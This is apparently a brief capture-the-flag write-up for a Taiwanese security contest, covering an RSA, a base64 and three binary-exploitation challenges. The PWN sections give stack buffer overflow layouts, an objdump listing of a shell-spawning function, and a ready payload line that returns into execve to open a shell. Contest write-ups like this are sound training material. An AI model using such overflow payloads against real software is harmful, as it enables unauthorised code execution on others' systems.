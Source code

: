 # isc.taiwan-te.ch

## Crypto

### Easy RSA

Use Typical RSA Dercrypt method

see script


## Misc

### base64

same as [pwntools](#pwntools), base64 decode the getline then remove `?` and `=`

is flag `お疲れ様`? (flag incorrect, reason unknown)



## PWN

### pwntools

ez to solve

### bof

the buffer size is 0x10(16 in demical)

so overwrite the stack with 16 'A's, and the RBP with 8 'A's

and return to `0x400607` to spawn shell

### bof2

the buffer size if 0x10(as [bof1](#bof1)

but the lengh of input is limited, so use '\0' to bypass lenth limit

and also in function <y0u_c4n7_533_m3> requires a varible to be 1 ,

or it won't spawn shell

use `objdump` to analyze instructions

    0000000000400697 <y0u_c4n7_533_m3>:
    400697:       55                      push   %rbp
    400698:       48 89 e5                mov    %rsp,%rbp
    40069b:       48 83 ec 10             sub    $0x10,%rsp
    40069f:       c7 45 fc 00 00 00 00    movl   $0x0,-0x4(%rbp)
    4006a6:       83 7d fc 00             cmpl   $0x0,-0x4(%rbp)
    4006aa:       74 18                   je     4006c4 <y0u_c4n7_533_m3+0x2d>
    4006ac:       ba 00 00 00 00          mov    $0x0,%edx
    4006b1:       be 00 00 00 00          mov    $0x0,%esi
    4006b6:       48 8d 3d 1b 01 00 00    lea    0x11b(%rip),%rdi        # 4007d8 <_IO_stdin_used+0x8>
    4006bd:       e8 be fe ff ff          callq  400580 <execve@plt>
    4006c2:       eb 16                   jmp    4006da <y0u_c4n7_533_m3+0x43>
    4006c4:       48 8d 3d 15 01 00 00    lea    0x115(%rip),%rdi        # 4007e0 <_IO_stdin_used+0x10>
    4006cb:       e8 80 fe ff ff          callq  400550 <puts@plt>
    4006d0:       bf 00 00 00 00          mov    $0x0,%edi
    4006d5:       e8 c6 fe ff ff          callq  4005a0 <exit@plt>
    4006da:       c9                      leaveq 
    4006db:       c3                      retq


return to address `4006ac` to spawn a shell

payload: '\0'*24 + p64(0x004006ac)


